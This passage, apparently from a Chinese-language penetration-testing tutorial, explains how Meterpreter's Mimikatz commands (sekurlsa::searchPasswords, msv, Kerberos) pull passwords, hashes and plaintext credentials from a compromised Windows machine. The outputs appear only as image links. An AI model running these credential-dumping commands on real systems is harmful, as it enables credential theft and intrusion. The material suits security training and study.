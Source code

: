另一个功能是能够在受损机器上搜索凭据。这里我们使用以下命令：

```
    meterpreter > mimikatz_command -f sekurlsa::searchPasswords  
```

输出显示了 Mimikatz 如何获得受损系统的`Administrator`密码：

![](img/898e252c-3c17-42a1-8e0b-1833db497b2b.png)

Metasploit 还包含几个命令，这些命令利用 Mimikatz 执行攻击后活动。与 hash`dump`命令非常相似，以下命令将从受损系统中转储哈希：

```
    meterpreter > msv  
```

这将产生以下输出：

![](img/78855f2b-5240-4ebf-8ed9-39c43bcfc221.png)

另一个利用 Mimikatz 的 Metasploit 命令是`Kerberos`命令，它将在受损机器上获取明文凭证：

```
    meterpreter > Kerberos  
```

然后，该命令生成以下输出：

![](img/d1ca0847-37ae-4df6-9cea-829c72ffb5b1.png)
